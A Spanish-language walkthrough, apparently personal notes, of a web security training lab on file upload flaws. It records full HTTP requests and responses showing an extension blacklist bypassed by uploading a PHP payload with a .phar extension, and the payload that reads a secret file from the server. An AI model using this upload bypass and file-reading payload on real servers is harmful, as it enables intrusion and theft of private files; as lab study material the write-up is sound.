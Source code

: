 This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

Bueno pues empezamos el laboratorio;
Nos podemos logear con las credenciales otorgadas:
https://0a23002e03ea46e0822307db004800c3.web-security-academy.net/login

![[Pasted image 20250211164520.png]]

Vemos una seccion para subir un avatar; vamos a investigar que tipos de extension estan "blacklisted"
![[Pasted image 20250211164630.png]]
El objetivo es subir una php webshell, vamos a ver que pasa si subimos un archivo .php


Request:

```http
POST /my-account/avatar HTTP/2
Host: 0a23002e03ea46e0822307db004800c3.web-security-academy.net
Cookie: session=Let2i9vditN1blWHNsQxo1yukpNKGLsO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=---------------------------27220382272061362402474291514
Content-Length: 3287
Origin: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------27220382272061362402474291514
Content-Disposition: form-data; name="avatar"; filename="backdoor.php"
Content-Type: application/x-php

```

Response:
```http
HTTP/2 403 Forbidden
Date: Tue, 11 Feb 2025 15:50:05 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 164

Sorry, php files are not allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Nos devuelve un forbiiden; igual podemos cambiar el POST para que el servidor piense que es otro archivo;


Request cuando mandamos una imagen:
```http
POST /my-account/avatar HTTP/2
Host: 0a23002e03ea46e0822307db004800c3.web-security-academy.net
Cookie: session=Let2i9vditN1blWHNsQxo1yukpNKGLsO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------189542150927649925661734094528
Content-Length: 52478
Origin: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net
Referer: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------189542150927649925661734094528
Content-Disposition: form-data; name="avatar"; filename="john.png"
Content-Type: image/png
```
Response:
```http
HTTP/2 200 OK
Date: Tue, 11 Feb 2025 15:54:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 129

The file avatars/john.png has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```


Pruebo quitandole la extension al archivo y cambiando el content-type; lo subo al servidor y recibo un 200 OK ; probamos a abrir la ruta de la imagen 
Request:
```http
POST /my-account/avatar HTTP/2
Host: 0a23002e03ea46e0822307db004800c3.web-security-academy.net
Cookie: session=Let2i9vditN1blWHNsQxo1yukpNKGLsO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------312397476735588160501877093900
Content-Length: 3279
Origin: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net
Referer: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------312397476735588160501877093900
Content-Disposition: form-data; name="avatar"; filename="backdoor"
Content-Type: image/png

```

El backdoor.php se sube en la siguiente URL, podemos acceder a ella simplemente pinchando en el avatar y abriendo la url
https://0a23002e03ea46e0822307db004800c3.web-security-academy.net/files/avatars/backdoor
![[Pasted image 20250211170623.png]]

La backdoor no se interpreta muy bien ya que el archivo se esta mostrando como un puro html ; necesitamos alguna otra forma de enganar al servidor 

Pruebo a crear un payload mas sencillo:
```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

Request:
```http
POST /my-account/avatar HTTP/2
Host: 0a23002e03ea46e0822307db004800c3.web-security-academy.net
Cookie: session=Let2i9vditN1blWHNsQxo1yukpNKGLsO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------374181242342140423912867030576
Content-Length: 543
Origin: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net
Referer: https://0a23002e03ea46e0822307db004800c3.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------374181242342140423912867030576
Content-Disposition: form-data; name="avatar"; filename="Fileread.phar"
Content-Type: application/x-php

<?php
echo file_get_contents('/home/carlos/secret');
?>

-----------------------------374181242342140423912867030576
Content-Disposition: form-data; name="user"

wiener
-----------------------------374181242342140423912867030576
Content-Disposition: form-data; name="csrf"

SWocDKsaT2NfbVvCLqJmZn1FVPf6jDQb
-----------------------------374181242342140423912867030576--

```

Response:
```http
HTTP/2 200 OK
Date: Tue, 11 Feb 2025 16:10:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 129

The file avatars/Fileread has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Funciona!! subiendolo como .phar (hermano gemelo de php ) el servidor lo permite y podemos leer el contenido de secret.

https://0a23002e03ea46e0822307db004800c3.web-security-academy.net/files/avatars/Fileread.phar

Secret:

```
q02TMODnwuPnWRIN529FWmf4qf48pYDd
```